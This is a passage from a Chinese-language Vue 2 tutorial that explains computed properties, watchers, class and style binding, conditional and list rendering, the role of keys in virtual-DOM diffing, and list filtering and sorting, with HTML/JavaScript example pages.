      姓名: <span>{{fullName}}</span> <br /><br />
      <!-- 计算属性fullName2是计算属性名并不是函数 ，不要使用函数调用-->
      姓名: <span>{{fullName2}}</span>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          firstName: "张",
          lastName: "三"
        },
        // 计算属性，其效果类似数据代理
        computed: {
          // 计算属性完整写法
          fullName: {
            //只要有人读取fullName时，get就会被调用，且返回值就作为fullName的值
            //get被调用的时机：1.初次读取fullName时,2.计算属性所依赖的数据发生变化时
            get() {
              console.log("计算属性fullName被读取");
              //get中this是vm实例对象
              return this.firstName + "-" + this.lastName;
            },
            //set被调用的时机，当fullName被修改时
            set(value) {
              console.log("计算属性fullName被修改");
              const arr = value.split("-");
              this.firstName = arr[0];
              this.lastName = arr[1];
            }
          },

          // 计算属性的简写，当计算属性值只读取不修改时，可简写成函数的形式，但注意fullName2是属性名
          fullName2() {
            return this.firstName + "-" + this.lastName;
          }
        }
      });
    </script>
  </body>
</html>
```

### 6.2 监视(侦听)属性 watch

小案例：切换天气，点击按钮，凉爽与炎热之间切换展示，并打印变化。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>天气案例</title>
    <script type="text/javascript" src="../js/vue.js"></script>
  </head>
  <body>
    <!-- 不规范写法，虽然能实现功能，但Vue模板中的代码太多 -->
    <div id="root">
      <h2>今天天气很{{isHot ? "炎热" : "凉爽"}},{{x}}</h2>
      <!-- console，alert等语句不能直接写在表达式中，vue无法识别会报错，因为找不到没有window属性，除非自己配置在data中-->
      <button @click="isHot=!isHot;x++;window.alert(x)">切换天气</button>
    </div>

    <!-- 使用计算属性和函数写法 -->
    <div id="root1">
      <h2>今天天气很{{info}},{{x}}</h2>
      <button @click="changeWeather">切换天气</button>
    </div>

    <script type="text/javascript">
      Vue.config.productionTip = false;

      new Vue({
        el: "#root",
        data: {
          isHot: true,
          x: 0,
          window
        }
      });

      new Vue({
        el: "#root1",
        data: {
          isHot: true,
          x: 0
        },
        computed: {
          info() {
            return this.isHot ? "炎热" : "凉爽";
          }
        },
        methods: {
          changeWeather() {
            this.isHot = !this.isHot;
            this.x++;
            console.log("isHot是" + this.isHot);
          }
        }
      });
    </script>
  </body>
</html>
```

**监视属性watch**是指当被监视的属性发生变化时，回调函数会自动调用，进行相关操作。

监视的属性必须存在才能被监视，通常监视属性的写法有两种：1.`new Vue`中配置`watch`属性；2.通过`vm.$watch`进行配置。

使用监视属性完成天气案例

```js
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>天气案例-监视属性</title>
    <script type="text/javascript" src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>今天天气很{{isHot ? "炎热" : "凉爽"}}</h2>
      <button @click="isHot=!isHot">切换天气</button>
    </div>

    <script type="text/javascript">
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          isHot: true
        },
        //方式1：监视属性,监视的属性不一定非要是data中的，计算属性也是可以检测的
        watch: {
          isHot: {
            immediate: true, //默认是false，设置为true就是初始化时让handler默认执行一次
            //handler函数是监视的属性isHot发生改变时，就会被调用，并且有两个参数，分别是isHot修改后的值和修改前的值
            handler(newValue, oldVlue) {
              console.log("isHot被修改了", newValue, oldVlue);
            }
          }
        }
      });

      //方式2：监视属性必须有引号，不能像Vue中简写引号，注意两个绑定都会生效
      vm.$watch("isHot", {
        immediate: true, //默认是false，设置为true就是初始化时让handler默认执行一次
        //handler函数是监视的属性isHot发生改变时，就会被调用，并且有两个参数，分别是isHot修改后的值和修改前的值
        handler(newValue, oldVlue) {
          console.log("isHot被修改了", newValue, oldVlue);
        }
      });
    </script>
  </body>
</html>
```

**深度监视**，Vue中的watch默认不监视对象内部值的改变(一层)，配置`deep:true`就可以监视对象内部值的改变(多层)。

Vue自身是可以监测对象内部值的改变，但Vue提供的watch默认不可以，使用watch时根据数据的具体结构来决定是否采用深度监视。默认不开启也是为了代码执行效率。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>天气案例-监视属性</title>
    <script type="text/javascript" src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>今天天气很{{isHot ? "炎热" : "凉爽"}}</h2>
      <button @click="isHot=!isHot">切换天气</button>
      <hr />
      <h3>a的值是:{{numbers.a}}</h3>
      <button @click="numbers.a++">点击a加1</button>
      <hr />
      <h3>b的值是:{{numbers.b}}</h3>
      <button @click="numbers.b++">点击b加1</button>

      <button @click="numbers={a:666,b:888}">完全修改numbers</button>
    </div>

    <script type="text/javascript">
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          isHot: true,
          numbers: {
           a: 1,
           b: 2,
           c: {
             d: {
               e: 100
             }
           }
          }
        },
        watch: {
          isHot: {
            immediate: true, //默认是false，设置为true就是初始化时让handler默认执行一次
            //handler函数是监视的属性isHot发生改变时，就会被调用，并且有两个参数，分别是isHot修改后的值和修改前的值
            handler(newValue, oldVlue) {
              console.log("isHot被修改了", newValue, oldVlue);
            }
          },
          //只监视a不监视b,监视多级结构中一个属性的变化
          "numbers.a": {
            handler() {
              console.log("a变化了");
            }
          },
          //不开启深度监视，这种只监视numbers该属性本身的变化，内部内容变化不会被监视
          //   numbers: {
          //     handler() {
          //       console.log("numbers变化了");
          //     }
          //   },
          //开启深度监视,监视多级结构中所有属性的变化
          numbers: {
            deep: true, //默认false,不开启深度监视
            handler() {
              console.log("numbers的内容变化了");
            }
          }
        }
      });
    </script>
  </body>
</html>
```

**深度监视简写**,两种写法都可简写

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>天气案例-监视属性</title>
    <script type="text/javascript" src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>今天天气很{{isHot ? "炎热" : "凉爽"}}</h2>
      <button @click="isHot=!isHot">切换天气</button>
    </div>

    <script type="text/javascript">
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          isHot: true
        },
        //如果配置项只要handler时，就可简写
        watch: {
          isHot(newValue, oldVlue) {
            console.log("isHot被修改了", newValue, oldVlue);
          }
        }
      });

      //$watch的简写,不要写箭头函数
      vm.$watch("isHot", function (newValue, oldVlue) {
        console.log("isHot被修改了", newValue, oldVlue);
      });
    </script>
  </body>
</html>
```

computed和watch之间的区别：

1. computed能完成的功能，watch都能完成；
2. watch能完成的功能，computed不一定能完成，例如watch能实现异步操作。
3. 被Vue所管理的函数，最好写成**普通函数**，这样this指向vm或组件实例对象。所有不被Vue管理的函数，例如定时器回调，ajax回调，promise回调等，最好写成**箭头函数**，这样this的指向依然是vm或组件实例对象

案例：对比watch与computed属性区别

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      姓: <input type="text" v-model="firstName" /> <br /><br />
      名: <input type="text" v-model="lastName" /> <br /><br />
      <!-- 计算属性，多次读取同一数据是有缓存的 -->
      姓名: <span>{{fullName}}</span> <br /><br />
      <!-- 使用watch属性监视 -->
      姓名2: <span>{{allName}}</span> <br /><br />
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          firstName: "张",
          lastName: "三",
          //全名属性
          allName: "张-三"
        },
        //计算属性
        computed: {
          fullName() {
            return this.firstName + "-" + this.lastName;
            //计算属性不能进行异步任务，因此其返回值是立即返回的，使用定时器，返回值就返回给定时器了，fullName获取不到返回值
            //下面是错误写法
            // setTimeout(() => {
            //   return this.firstName + "-" + this.lastName;
            // }, 1000);
          }
        },
        watch: {
          //监视姓
          firstName(newValue, oldValue) {
            //监视属性可以实现异步任务
            setTimeout(() => {
              this.allName = newValue + "-" + this.lastName;
            }, 1000);
          },
          //监视名
          lastName(newValue) {
            this.allName = this.firstName + "-" + newValue;
          }
        }
      });
    </script>
  </body>
</html>
```

### 6.3 绑定class样式与style样式

绑定class样式,使用`:class=xxx`,xxx可以是字符串，对象，数组。

1. 字符串写法适用于：类名不确定、要动态获取的情况；
2. 数组写法适用于：要绑定多个样式，个数不确定、名字也不确定；
3. 对象写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>绑定样式</title>
    <script type="text/javascript" src="../js/vue.js"></script>
    <style>
      .basic {
        width: 200px;
        height: 100px;
        border: 1px solid red;
      }
      /* 样式三选一 */
      .happy {
        background-color: palegoldenrod;
        border: 5px solid pink;
      }

      .sad {
        background-color: greenyellow;
        border: 5px dotted green;
      }

      .normal {
        background-color: blueviolet;
        border: 5px double blue;
      }

      /* 三个样式可组合同时使用 */
      .aaa {
        background-color: palevioletred;
      }
      .bbb {
        font-size: 20px;
        font-weight: 400;
      }
      .ccc {
        border-radius: 10px;
      }
    </style>
  </head>
  <body>
    <div id="root">
      <!-- :class动态绑定class属性 -->
      <!-- 1. 字符串写法，适用于样式类名不确定，需要动态指定 -->
      <div class="basic" :class="mood" @click="changeMood">{{name}}</div>
      <br />
      <br />
      <!-- 2. 数组写法，适用于要绑定的样式个数不确定，名字也不确定 -->
      <div class="basic" :class="arr" @click="changeMood2">{{name}}</div>
      <br />
      <br />
      <!-- 3. 对象写法，适用于要绑定的样式个数确定，名字也确定 但动态决定用不用-->
      <div class="basic" :class="classObj" @click="changeMood3">{{name}}</div>
      <br />
      <br />
      <!-- 数组写多个变量，一般不这样写 -->
      <div class="basic" :class="[a,b,c]" @click="changeMood2">{{name}}</div>
    </div>

    <script type="text/javascript">
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          name: "样式修改",
          mood: "normal", //默认样式
          arr: ["aaa", "bbb", "ccc"],
          a: "aaa",
          b: "bbb",
          c: "ccc",
          classObj: {
            aaa: false,
            bbb: false
          }
        },
        methods: {
          changeMood() {
            //数据数组
            const arr = ["normal", "happy", "sad"];
            // 随机生成0，1，2
            const index = Math.floor(Math.random() * 3);
            this.mood = arr[index];
          },
          changeMood2() {
            if (this.arr.length === 0) {
              this.arr = ["aaa", "bbb", "ccc"];
            } else {
              this.arr.shift(); //删除数组元素
            }
          },
          changeMood3() {
            this.classObj.aaa = !this.classObj.aaa;
            this.classObj.bbb = !this.classObj.bbb;
          }
        }
      });
    </script>
  </body>
</html>
```

绑定style样式，使用`:style="{fontSize:xxx}"`,其中xxx是动态值。style动态绑定的值也可以是字符串，数组，对象。

`{fontSize:xxx}`这种结构被称为**样式对象**，其属性值是css中样式的驼峰写法。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>绑定样式</title>
    <script type="text/javascript" src="../js/vue.js"></script>
    <style>
      .basic {
        width: 200px;
        height: 100px;
        border: 1px solid red;
      }
      /* 样式三选一 */
      .happy {
        background-color: palegoldenrod;
        border: 5px solid pink;
      }

      .sad {
        background-color: greenyellow;
        border: 5px dotted green;
      }

      .normal {
        background-color: blueviolet;
        border: 5px double blue;
      }

      /* 三个样式可组合同时使用 */
      .aaa {
        background-color: palevioletred;
      }
      .bbb {
        font-size: 20px;
        font-weight: 400;
      }
      .ccc {
        border-radius: 10px;
      }
    </style>
  </head>
  <body>
    <div id="root">
      <!-- 绑定style样式普通写法 key是驼峰命名法-->
      <div class="basic" :style="{fontSize:fsize+'px'}">{{name}}</div>
      <br /><br />
      <!-- 绑定style样式对象写法 -->
      <div class="basic" :style="styleObj">{{name}}</div>
      <br /><br />
      <!-- 绑定style样式数组写法 -->
      <div class="basic" :style="[styleObj,styleObj2]">{{name}}</div>
      <br /><br />
      <!-- 绑定style样式数组写法2 -->
      <div class="basic" :style="arr">{{name}}</div>
    </div>

    <script type="text/javascript">
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          name: "样式修改",
          fsize: 40,
          styleObj: {
            fontSize: "40px",
            color: "red"
          },
          styleObj2: {
            backgroundColor: "orange"
          },
          arr: [
            {
              fontSize: "40px",
              color: "orange"
            },
            {
              backgroundColor: "blue"
            }
          ]
        }
      });
    </script>
  </body>
</html>
```

## 七、页面渲染

### 7.1 条件渲染

所谓条件渲染，就是根据不同条件渲染页面元素。有`v-show`与`v-if`两种。

`v-show`适用于切换频率较高的场景，特点是不展示的DOM元素不会被移除，仅仅是**使用样式的隐藏**。写法为：`v-show='表达式'`。

`v-if`适用于切换频率较低的场景，特点是**不展示的DOM元素直接被移除**。写法为：`v-if='表达式'`。

通常可以与`v-else-if`和`v-else`一起使用。但要求**结构不能被中途打断**。`template模板`必须与`v-if`组合才能使用。

> 注意：使用`v-if`时，**元素可能会无法获取到**，而使用`v-show`是一定可以被获取的。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>条件渲染</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- 1. v-show做条件渲染 控制标签显示与隐藏，跟style设置成block与none效果一样 -->
      <h2 v-show="false">你好{{name}}</h2>
      <h2 v-show="1===1">你好2{{name}}</h2>
      <h2 v-show="a">你好3{{name}}</h2>
      <button @click="show">点击显示</button>

      <!-- 2. v-if做条件渲染 控制标签是否存在，如果为false则标签结构都不会渲染 -->
      <h2 v-if="false">欢迎{{name}}</h2>
      <h2 v-if="1===1">欢迎2{{name}}</h2>
      <h2 v-if="a">欢迎3{{name}}</h2>
      <button @click="show">点击显示</button>

      <!-- 实现不同n值展示不同的div标签 如果切换很频繁，使用v-show效率更高-->
      <!--3. v-else-if与v-else,使用它们与v-if组合时，必须匹配不允许打断，否则打断后面的部分会无效-->
      <h2>当前的n值{{n}}</h2>
      <button @click="n++">点击n+1</button>
      <div v-if="n===1">A</div>
      <!-- v-else-if的效果就是js中else if的效果，只要一个条件成立其他条件就跳过 -->
      <div v-else-if="n===2">B</div>
      <div v-else-if="n===3">C</div>
      <!-- v-else就是else的效果，不用写条件,写了也无效,表示其他任何情况 -->
      <div v-else>D</div>

      <!-- 打断错误演示 -->
      <div v-if="n===1">A1</div>
      <div>打断</div>
      <!--打断后面的无效，会报错-->
      <div v-else-if="n===2">B1</div>
      <div v-else>C1</div>

      <!-- 同时显示3个h2,使用div包裹可以使用一个条件渲染完成效果，但新增的div破坏了原本网页的结构  -->
      <div v-if="n===1">
        <h2>AAA</h2>
        <h2>BBB</h2>
        <h2>CCC</h2>
      </div>
      <!-- 4. template模板可解决,template最大的特点不影响结构，最终页面渲染时会忽略,template只能与v-if配合使用 -->
      <template v-if="n===1">
        <h2>AAA</h2>
        <h2>BBB</h2>
        <h2>CCC</h2>
      </template>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          name: "张三",
          a: false,
          n: 0
        },
        methods: {
          show() {
            this.a = !this.a;
          }
        }
      });
    </script>
  </body>
</html>
```

### 7.2 列表渲染

#### 7.2.1 v-for遍历

使用`v-for`指令，用于展示列表数据，语法为`'v-for(item,index) in xxx' :key='yyy'`。

可用于遍历**数组**、**对象**、**字符串**以及**指定次数**。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>条件渲染</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <ul>
        <!-- v-for：要生成多个谁，就在谁身上使用v-for,其中:key一定要动态绑定key为唯一值，不写默认vue就会绑定index作为key -->
        <!-- 1.遍历数组 参数1是对象值，参数2是索引值 常用-->
        <li v-for="person in persons" :key="person.id">
          {{person.name}}-{{person.age}}
        </li>
          
        <!-- 内部可以使用in 也可使用of -->
        <!-- <li v-for="(p,index) in persons" :key="index">{{p}}-{{index}}</li> -->
        <li v-for="(p,index) of persons" :key="index">{{p}}-{{index}}</li>

        <!-- key设置为相同值会报错 -->
        <!-- <li v-for="person in persons" :key="1">
          {{person.name}}-{{person.age}}
        </li> -->

        <!-- 2.遍历对象 参数1是value值，参数2是属性名key-->
        <h2>对象信息</h2>
        <ul>
          <li v-for="(val,k) of cars" :key="k">{{k}}-{{val}}</li>
        </ul>

        <!-- 3.遍历字符串 参数1是字符值，参数2是每个字符索引值-->
        <h2>字符串信息</h2>
        <ul>
          <li v-for="(char,index1) of str" :key="index1">
            {{index1}}-{{char}}
          </li>
        </ul>

        <!-- 4.遍历指定次数 参数1是数字值，数字从1开始，参数2是索引值，索引从0开始-->
        <h2>指定次数</h2>
        <ul>
          <li v-for="(number,index2) of 5" :key="index2">
            {{number}}-{{index2}}
          </li>
        </ul>
      </ul>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          persons: [
            {
              id: "001",
              name: "张三",
              age: 18
            },
            {
              id: "002",
              name: "李四",
              age: 19
            },
            {
              id: "003",
              name: "王五",
              age: 20
            }
          ],
          cars: {
            name: "大大",
            price: 99,
            color: "black"
          },
          str: "hello"
        }
      });
    </script>
  </body>
</html>
```

#### 7.2.2 key的作用与原理(重点)

案例：演示key的作用以及使用index作为key的问题

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>条件渲染</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <!-- 演示key值使用index的问题 -->
      <button @click.once="add">添加一个新对象在最前面</button>
      <ul>
        <!-- key的作用就是给元素节点做标识，相当于标签的身份证号-->
        <!-- 注意key只是vue内部使用的，渲染到页面上时元素标签上是没有key属性的 - -->
        <!-- 使用p.id唯一值作为key-->
        <li v-for="p in persons" :key="p.id">
          {{p.name}}-{{p.age}}
          <!-- 添加input框，添加新对象前先输入对应值，这样演示就可看到错误问题 -->
          <input type="text" />
        </li>
        <hr />
        <!-- 使用index作为key -->
        <li v-for="(p,index) of persons" :key="index">
          {{p.name}}-{{p.age}}
          <!-- 添加input框，添加新对象前先输入对应值，这样演示就可看到错误问题 -->
          <input type="text" />
        </li>
      </ul>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          persons: [
            {
              id: "001",
              name: "张三",
              age: 18
            },
            {
              id: "002",
              name: "李四",
              age: 19
            },
            {
              id: "003",
              name: "王五",
              age: 20
            }
          ]
        },
        methods: {
          add() {
            this.persons.unshift({ id: "004", name: "老刘", age: 22 });
          }
        }
      });
    </script>
  </body>
</html>
```

演示效果：



出现上述问题的原因，实际就跟key的执行原理以及Vue的虚拟DOM的diff算法有关。

key就是**虚拟DOM对象的标识**，当状态中的数据发生变化时，Vue会根据新数据生成新的虚拟DOM。随后Vue进行新虚拟DOM与旧虚拟DOM的diff算法比较。对比规则如下：

1. 旧虚拟DOM中找到了新虚拟DOM相同的key时：
   + 若虚拟DOM中内容没变，也就是**旧虚拟DOM内容=新虚拟DOM内容**，直接使用之前的真实DOM;
   + 若虚拟DOM中内容发生变化，也就是**旧虚拟DOM内容≠新虚拟DOM内容**，则生成新的真实DOM,随后替换掉页面中之前的真实DOM。
2. 旧虚拟DOM没找到新虚拟DOM相同的key时：直接创建新的真实DOM,随后渲染到页面。

index作为key时问题：1.若对数据进行**逆序添加**、**逆序删除**等破坏顺序的操作，会产生没有必要的真实DOM更新，也就是页面效果没问题，但效率低。2.如果结构中还包含输入类DOM,例如input等，则会产生错误的DOM更新，页面错乱。

使用index作为key时，Vue的渲染DOM的原理流程：



使用p.id作为key时，Vue的渲染DOM的原理流程：



开发中key的选择，最好使用**每条数据的唯一标识**作为key,比如id、手机号、身份证号等。如果不存在对数据的**逆序添加**、**逆序删除**等顺序操作，且**仅用于列表渲染展示**时，可以使用index作为key。

#### 7.2.3 列表过滤与排序

列表功能依然使用`v-for`进行列表渲染，过滤与排序分别使用数组的`filter`和`sort`方法完成。

**案例：实现模糊搜索查询,也就是通过名称对列表进行过滤**

使用监视属性watch实现,稍微比计算属性复杂，且需要添加一个新属性filPersons

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>列表过滤</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>人员列表</h2>
      <!-- 使用v-model获取用户输入 -->
      <input type="text" placeholder="请输入名字" v-model="keyword" />
      <ul>
        <li v-for="(p,index) of filPersons" :key="index">
          {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
      </ul>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          keyword: "",
          persons: [
            { id: "001", name: "马冬梅", age: 18, sex: "女" },
            { id: "002", name: "周冬雨", age: 39, sex: "女" },
            { id: "003", name: "周杰伦", age: 20, sex: "男" },
            { id: "004", name: "温兆伦", age: 40, sex: "男" }
          ],
          filPersons: []
        },
        // 监视用户输入
        watch: {
          keyword: {
            immediate: true, //默认执行一次，使用空字符串搜索可展示全部列表内容
            handler(val) {
              this.filPersons = this.persons.filter((p) => {
                //indexof未查询到字符串就返回-1，其中查询空字符串返回的是0
                return p.name.indexOf(val) !== -1;
              });
            }
          }
        }
      });
    </script>
  </body>
</html>
```

使用计算属性computed实现,计算属性一开始就会执行一次，并且不用添加新属性。

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>列表过滤</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>人员列表</h2>
      <!-- 使用v-model获取用户输入 -->
      <input type="text" placeholder="请输入名字" v-model="keyword" />
      <ul>
        <li v-for="(p,index) of filPersons" :key="index">
          {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
      </ul>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          keyword: "",
          persons: [
            { id: "001", name: "马冬梅", age: 18, sex: "女" },
            { id: "002", name: "周冬雨", age: 39, sex: "女" },
            { id: "003", name: "周杰伦", age: 20, sex: "男" },
            { id: "004", name: "温兆伦", age: 40, sex: "男" }
          ]
        },

        computed: {
          filPersons() {
            return this.persons.filter((p) => {
              //indexof未查询到字符串就返回-1，其中查询空字符串返回的是0
              return p.name.indexOf(this.keyword) !== -1;
            });
          }
        }
      });
    </script>
  </body>
</html>
```

**案例：在过滤的案例上，添加排序功能**，注意排序结果是在过滤的结果上排序的

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>列表排序</title>
    <script src="../js/vue.js"></script>
  </head>
  <body>
    <div id="root">
      <h2>人员列表</h2>
      <!-- 使用v-model获取用户输入 -->
      <input type="text" placeholder="请输入名字" v-model="keyword" />
      <button @click="sortType=2">年龄升序</button>
      <button @click="sortType=1">年龄降序</button>
      <button @click="sortType=0">原顺序</button>
      <ul>
        <li v-for="(p,index) of filPersons" :key="p.id">
          {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
      </ul>
    </div>

    <script>
      Vue.config.productionTip = false;

      const vm = new Vue({
        el: "#root",
        data: {
          keyword: "",
          persons: [
            { id: "001", name: "马冬梅", age: 18, sex: "女" },
            { id: "002", name: "周冬雨", age: 39, sex: "女" },
            { id: "003", name: "周杰伦", age: 20, sex: "男" },
            { id: "004", name: "温兆伦", age: 40, sex: "男" }
          ],
          sortType: 0 //0代表原顺序 1代表降序 2代表升序
        },

        computed: {
          filPersons() {
            //为何原顺序能保留就是persons的内容一直未变,因此每次过滤的数据都是一样的
            //过滤
            const arr = this.persons.filter((p) => {
              //indexof未查询到字符串就返回-1，其中查询空字符串返回的是0
              return p.name.indexOf(this.keyword) !== -1;
            });
            //排序 this.sortType !== 0就进行排序
            if (this.sortType) {
              arr.sort((p1, p2) => {
                return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age;
              });
            }
            return arr;
          }
        }
      });
    </script>
  </body>
</html>
```

执行结果



## 八、Vue监测数据data原理

Vue提供了`wacth`属性，可以让开发者完成对`data`中数据的监视。这是程序员对数据的监视。而其实**Vue本身默认也对data数据有监视功能**，这也是为什么data数据一发生变化，页面内容会随之变化的原因。

Vue监视数据的原理是Vue会监视data中所有层次的数据:

+ 对于data中的**对象**数据，Vue是通过`setter`实现监测的，且要在new Vue时就传入要监测的数据。如果对象要后追加的属性，需要使用`Vue.set`才能添加**响应式属性**。
+ 对于data中的**数组**数据，Vue是通过**包裹数组更新元素的方法**实现的，其本质就是调用原数组方法更新数组，然后重新解析模板更新页面；

